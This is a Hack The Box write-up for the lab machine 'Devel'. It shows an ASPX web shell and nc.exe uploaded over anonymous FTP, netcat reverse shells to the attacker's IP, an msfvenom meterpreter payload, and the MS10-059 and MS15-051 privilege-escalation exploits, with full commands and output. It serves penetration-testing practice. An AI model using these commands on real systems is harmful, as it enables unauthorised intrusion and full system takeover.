



# Devel: 10.10.10.5

## Hints

- Anonymous file upload on a badly configured webserver is gold!
- Privesc is all about picking one of many exploits for an old system

## nmap

Starting with the usual `nmap` scan. Interesting ports:

```none
21/tcp open  ftp     Microsoft ftpd
80/tcp open  http    Microsoft IIS httpd 7.5
```

## 80: Recon

Had a quick look at the website on port 80.


Just a default landing page of Internet Information Services (IIS) webserver. The image on the landing page reports version 7, and the headers report version 7.5.

```none
└─$ curl -v 10.10.10.5
*   Trying 10.10.10.5:80...
* Connected to 10.10.10.5 (10.10.10.5) port 80 (#0)
> GET / HTTP/1.1
> Host: 10.10.10.5
> User-Agent: curl/7.74.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Content-Type: text/html
< Last-Modified: Fri, 17 Mar 2017 14:37:30 GMT
< Accept-Ranges: bytes
< ETag: "37b5ed12c9fd21:0"
< Server: Microsoft-IIS/7.5
< X-Powered-By: ASP.NET
< Date: Fri, 16 Jul 2021 23:07:44 GMT
< Content-Length: 689
```

Not much happening here. Started a `gobuster` on the webroot, and moved to FTP.

## 21 Anonymous FTP

The nmap scan reported FTP as being open to anonymous logins.

```none
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
```

Log in using the username `anonymous` and any password.

```none
└─$ ftp 10.10.10.5    
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:thomas): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
```

This showed some interesting files. Most noticeably, the `welcome.png` and `iisstart.htm` files listed are used on the webserver - so this looks like the webserver root folder and the FTP root folder.

```none
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
03-17-17  05:37PM                  689 iisstart.htm
03-17-17  05:37PM               184946 welcome.png
226 Transfer complete.
```

Since we have anonymous access we can upload and download files. Not much to download, but we can upload some useful tools. Copied some tools to a local folder to upload.

```none
cp /usr/share/windows-binaries/nc.exe .
cp /home/thomas/tools/SecLists/Web-Shells/FuzzDB/cmd.aspx .
```

I got the APSX webshell from [SecLists](https://github.com/danielmiessler/SecLists), and `nc.exe` from the version on Kali. Then uploaded them to the server using FTP.

```none
ftp> put cmd.aspx
local: cmd.aspx remote: cmd.aspx
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
1442 bytes sent in 0.01 secs (154.4082 kB/s)
ftp> put nc.exe
local: nc.exe remote: nc.exe
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
59584 bytes sent in 0.02 secs (2.6095 MB/s)
ftp> exit
221 Goodbye.
```

At this point, I had all the files on the webserver to get a code execution and a reverse shell.

```none
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
07-17-21  02:15AM                 1442 cmd.aspx
03-17-17  05:37PM                  689 iisstart.htm
07-17-21  02:18AM                59392 nc.exe
03-17-17  05:37PM               184946 welcome.png
226 Transfer complete.
```

Then I tested that I had a network connection using the APSX web shell, and pinging my machine.



I listened to incoming requests using:

```none
└─$ sudo tcpdump -i tun0
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes

11:20:05.642836 IP 10.10.10.5 > 10.10.14.10: ICMP echo request, id 1, seq 1, length 40
11:20:05.642910 IP 10.10.14.10 > 10.10.10.5: ICMP echo reply, id 1, seq 1, length 40
11:20:06.859487 IP 10.10.10.5 > 10.10.14.10: ICMP echo request, id 1, seq 2, length 40
11:20:06.859529 IP 10.10.14.10 > 10.10.10.5: ICMP echo reply, id 1, seq 2, length 40
11:20:07.782373 IP 10.10.10.5 > 10.10.14.10: ICMP echo request, id 1, seq 3, length 40
11:20:07.782390 IP 10.10.14.10 > 10.10.10.5: ICMP echo reply, id 1, seq 3, length 40
11:20:08.706988 IP 10.10.10.5 > 10.10.14.10: ICMP echo request, id 1, seq 4, length 40
11:20:08.707029 IP 10.10.14.10 > 10.10.10.5: ICMP echo reply, id 1, seq 4, length 40
```

Success! But getting a reverse shell from here was a lengthy process of trial and error. I thought I could just pop in a netcat reverse shell payload into the uploaded ASPX page and it would work. For example: `nc.exe -e cmd.exe 10.10.14.10 9001`. But it was not that simple and learned lots of things on the way.

I couldn't just run `nc.exe` as the working directory was not the webserver root. The working directory was: `C:\windows\system32\inetsrv`.



But I could traverse directories - if it was in a single command. And I could run programs from different locations in the file system - if I knew where they were. Did some searching using `dir` to try to find the `nc.exe` executable. Never used the command prompt to search for files!

```none
where /R C:\ nc.exe
```

Which reported that location.

```none
C:\inetpub\wwwroot\nc.exe
```



With this knowledge, we could use the full path to call netcat and get a reverse shell. Here is the first payload used.

```none
C:\inetpub\wwwroot\nc.exe -e cmd.exe 10.10.14.10 9001
```

Alas! Not working. Got the following error: `This program cannot be run in DOS mode`.


This was a little tricky to debug. A quick Google shows a variety of reasons to get that error message on a variety of different systems. On the first page of results, I found an interesting article called [This Program Can not Be Run in DOS Mode](https://security.stackexchange.com/questions/133946/this-program-can-not-be-run-in-dos-mode). The interesting part was it was from `security.stackexchange.com`. The problem? FTP transfer modes of ASCII vs binary. Read the article if you want more info - but I reuploaded the file after switching to binary mode. Just enter the `binary` command at the FTP prompt to switch modes.

```none
ftp> binary
200 Type set to I.
ftp> put nc.exe
local: nc.exe remote: nc.exe
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
59392 bytes sent in 0.00 secs (253.9938 MB/s)
```

Run the exploit again in the ASPX shell:

```none
C:\inetpub\wwwroot\nc.exe -e cmd.exe 10.10.14.10 9001
```

Success!

```none
└─$ nc -lvnp 9001                                 
listening on [any] 9001 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.5] 49158
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv
```

The reverse shell got us access as `iis apppool\web`. However, this is a very low privileged user and we cannot even get the user flag... yet!

## Setting up a Docker container for Windows-Exploit-Suggester

I am still fine-tuning my Windows privesc - so I keep jumping between different tools and techniques. I have been going through the [Windows - Privilege Escalation on PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#tools). Today I tried out the [Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester). Couple notes:

- The project hasn't been updated since Feb, 2017
- You can still pull (update) to see new vulnerabilities
- It was a complete pain to run!

I recently finished the Devel machine on HTB - and had many problems running the MS17-010 Eternal Blue exploit - mainly due to Python 2 errors. I have programmed in Python for about 8 years, and have lots of experience with venv and Python 2 VS 3. But running Python 2 exploits is a complete pain. Similar to my solution for that scenario... I will tackle this with a Docker environment.

Start by setting up the folder structure.

```none
mkdir pywes
touch Dockerfile
```

Next, dump the `systeminfo` from the Devel system, and save it into a file named `systeminfo` in the `pywes` folder. Then I wrote the following `Dockerfile`.

```none
FROM python:2.7-alpine
RUN apk --update --no-cache add \
    git && \
    rm -rf /var/cache/apk/*

RUN pip install "xlrd==1.2.0"
WORKDIR /opt/
RUN git clone https://github.com/AonCyberLabs/Windows-Exploit-Suggester.git
WORKDIR /opt/Windows-Exploit-Suggester
COPY systeminfo /opt/Windows-Exploit-Suggester
RUN python2 windows-exploit-suggester.py --update
```

A summary of the process:

- `FROM python:2.7-alpine`: Use a slim Apline Linux image with Python 2.7.
- `RUN apk --update --no-cache add`: Update packages and install git
- `RUN pip install "xlrd==1.2.0"`: Install `xlrd` with a specific version of 1.2.0. Newer versions will not work, as they dropped support for `.xlsx` files
- The remainder is downloading the Windows-Exploit-Suggester repo, copying over our `systeminfo` file and "updating" the vulnerability database

Build the Docker image.

```none
sudo docker build -t pywes .
```

And start the container.

```none
sudo docker run -it pywes /bin/sh
```

This will drop us into a shell where we can run the tool. FYI - I don't auto-run the tool, as the vulnerability database file name changes based on the date. Could probably write some magic to get this done. Anyway, run the tool.

```none
/opt/Windows-Exploit-Suggester # python2 windows-exploit-suggester.py -d 2021-07-25-mssb.xls.xls -i systeminfo
```

And review the results!

```none
[*] initiating winsploit version 3.3...
[-] unknown filetype. change file extension to indicate csv or xls/xlsx
/opt/Windows-Exploit-Suggester # python2 windows-exploit-suggester.py -d 2021-07-25-mssb.xls.xls    -i systeminfo 
[*] initiating winsploit version 3.3...
('2021-07-25-mssb.xls', 'MEOW', '.xls')
[*] database file detected as xls or xlsx based on extension
[*] attempting to read from the systeminfo input file
[+] systeminfo input file read successfully (utf-8)
[*] querying database file for potential vulnerabilities
[*] comparing the 0 hotfix(es) against the 179 potential bulletins(s) with a database of 137 known exploits
[*] there are now 179 remaining vulns
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
[+] windows version identified as 'Windows 7 32-bit'
[*] 
[M] MS13-009: Cumulative Security Update for Internet Explorer (2792100) - Critical
[M] MS13-005: Vulnerability in Windows Kernel-Mode Driver Could Allow Elevation of Privilege (2778930) - Important
[E] MS12-037: Cumulative Security Update for Internet Explorer (2699988) - Critical
[*]   http://www.exploit-db.com/exploits/35273/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5., PoC
[*]   http://www.exploit-db.com/exploits/34815/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5.0 Bypass (MS12-037), PoC
[*] 
[E] MS11-011: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (2393802) - Important
[M] MS10-073: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (981957) - Important
[M] MS10-061: Vulnerability in Print Spooler Service Could Allow Remote Code Execution (2347290) - Critical
[E] MS10-059: Vulnerabilities in the Tracing Feature for Services Could Allow Elevation of Privilege (982799) - Important
[E] MS10-047: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (981852) - Important
[M] MS10-015: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (977165) - Important
[M] MS10-002: Cumulative Security Update for Internet Explorer (978207) - Critical
[M] MS09-072: Cumulative Security Update for Internet Explorer (976325) - Critical
[*] done
```

For those who haven't used this tool... the `[M]` refers to Metasploit, and `[E]` refers to a normal exploit.

## Privesc

I went down the list of the suggested vulnerabilities. For some fun and learning, I tried to manually (cross) compile some of the exploits. The basic method was:

- `searchsploit` the MS bulliten number
- Copy (mirror) the exploit using searchsploit
- Try cross compile using mingw

Didn't have much luck, and given my lack of cross-compiling expertise, decided to move on. I have previously strumbled on the [SecWiki](https://github.com/SecWiki/windows-kernel-exploits) which has a bunch of precompiled windows exploits. After trying a couple, had luck with MS10-059. Download the precompiled binary.

```none
wget https://github.com/SecWiki/windows-kernel-exploits/raw/master/MS10-059/MS10-059.exe
```

Upload using FTP - making sure to switch to `binary` mode and change to the `wwwroot` directory. After running once - looks like this spawns a reverse shell.

```none
C:\inetpub\wwwroot>MS10-059.exe
MS10-059.exe
/Chimichurri/-->This exploit gives you a Local System shell <BR>/Chimichurri/-->Usage: Chimichurri.exe ipaddress port <BR>
```

So I set up a reverse shell listener, and ran the exploit again. Interestingly, it did not like a high port of 9002. Will have to investigate this, but seems like Windows always complains about my 9000 ports.

```none
C:\inetpub\wwwroot>MS10-059.exe 10.10.14.10 4444
MS10-059.exe 10.10.14.10 4444
/Chimichurri/-->This exploit gives you a Local System shell <BR>/Chimichurri/-->Changing registry values...<BR>/Chimichurri/-->Got SYSTEM token...<BR>/Chimichurri/-->Running reverse shell...<BR>/Chimichurri/-->Restoring default registry values...<BR>
```

```none
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.5] 49165
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\inetpub\wwwroot>whoami
whoami
nt authority\system
```

## Metasploit Approach

After exploiting the box without Metasploit, thought it would be interesting to try a different approach. First, create a payload using `msfvenom` to upload to the FTP server.

```none
└─$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.10 LPORT=4444 EXITFUNC=thread -f aspx -a x86 --platform windows -o rev.aspx
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of aspx file: 2736 bytes
Saved as: rev.aspx
```

Upload the `rev.aspx` to the FTP server. Then, set up a reverse shell listener in `msfconsole`.

```none
msfconsole
msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST tun0
LHOST => tun0
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.10.14.10:4444 
[*] Sending stage (175174 bytes) to 10.10.10.5
[*] Meterpreter session 1 opened (10.10.14.10:4444 -> 10.10.10.5:49168) at 2021-07-25 13:46:05 +1200

meterpreter >
```

Now we are going to try to find some vulnerabilities for local privesc.

```none
msf6 exploit(multi/handler) > use post/multi/recon/local_exploit_suggester
msf6 post(multi/recon/local_exploit_suggester) > set SESSION 1
SESSION => 1
msf6 post(multi/recon/local_exploit_suggester) > exploit

[*] 10.10.10.5 - Collecting local exploits for x86/windows...
```

This found a bunch of exploits...

```none
[*] 10.10.10.5 - 37 exploit checks are being tried...
[+] 10.10.10.5 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms15_004_tswbproxy: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ntusermndragover: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Post module execution completed
```

Just picked a random exploit.

```none
use exploit/windows/local/ms15_051_client_copy_image
```

And set the options.

```none
msf6 exploit(windows/local/ms15_051_client_copy_image) > set LHOST 10.10.14.10
LHOST => 10.10.14.10
msf6 exploit(windows/local/ms15_051_client_copy_image) > set SESSION 1
SESSION => 1
msf6 exploit(windows/local/ms15_051_client_copy_image) > exploit

[*] Started reverse TCP handler on 10.10.14.10:4444 
[*] Launching notepad to host the exploit...
[+] Process 2792 launched.
[*] Reflectively injecting the exploit DLL into 2792...
[*] Injecting exploit into 2792...
[*] Exploit injected. Injecting payload into 2792...
[*] Payload injected. Executing exploit...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (175174 bytes) to 10.10.10.5
[*] Meterpreter session 3 opened (10.10.14.10:4444 -> 10.10.10.5:49176) at 2021-07-25 13:54:10 +1200

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

Done!

## Lessons Learned

- FTP has different file upload methods, `binary` being important to know
- Docker for Python2 apps works well
- Cross compiling Windows exploits is hard, practice more

## Useful Resources

- [HackTheBox Devel - ippsec](https://www.youtube.com/watch?v=2LNyAbroZUk)
- [HTB: Devel by 0xdf](https://0xdf.gitlab.io/2019/03/05/htb-devel.html)
- [Devel Writeup w/o Metasploit by Rana Khalil](https://rana-khalil.gitbook.io/hack-the-box-oscp-preparation/windows-boxes/devel-writeup-w-o-metasploit)
